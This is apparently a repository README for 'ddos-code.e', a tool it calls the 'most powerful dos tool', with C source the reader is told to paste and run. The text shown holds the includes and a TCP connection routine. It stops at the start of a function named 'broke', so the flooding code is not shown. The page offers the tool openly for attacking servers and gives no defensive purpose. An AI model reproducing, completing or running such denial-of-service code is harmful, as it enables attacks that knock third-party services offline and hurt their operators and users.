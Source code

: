 # ddos-code.e
ddos tool made by code.e
heres the source code copy past it into a c++ app and run it 

/* code.e - Most powerful dos tool */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <unistd.h>
#include <netdb.h>
#include <signal.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int make_socket(char *host, char *port) {
	struct addrinfo hints, *servinfo, *p;
	int sock, r;
//	fprintf(stderr, "[Connecting -> %s:%s\n", host, port);
	memset(&hints, 0, sizeof(hints));
	hints.ai_family = AF_UNSPEC;
	hints.ai_socktype = SOCK_STREAM;
	if((r=getaddrinfo(host, port, &hints, &servinfo))!=0) {
		fprintf(stderr, "getaddrinfo: %s\n", gai_strerror(r));
		exit(0);
	}
	for(p = servinfo; p != NULL; p = p->ai_next) {
		if((sock = socket(p->ai_family, p->ai_socktype, p->ai_protocol)) == -1) {
			continue;
		}
		if(connect(sock, p->ai_addr, p->ai_addrlen)==-1) {
			close(sock);
			continue;
		}
		break;
	}
	if(p == NULL) {
		if(servinfo)
			freeaddrinfo(servinfo);
		fprintf(stderr, "No connection could be made\n");
		exit(0);
	}
	if(servinfo)
		freeaddrinfo(servinfo);
	fprintf(stderr, "[Connected -> %s:%s]\n", host, port);
	return sock;
}

void broke(int s) {
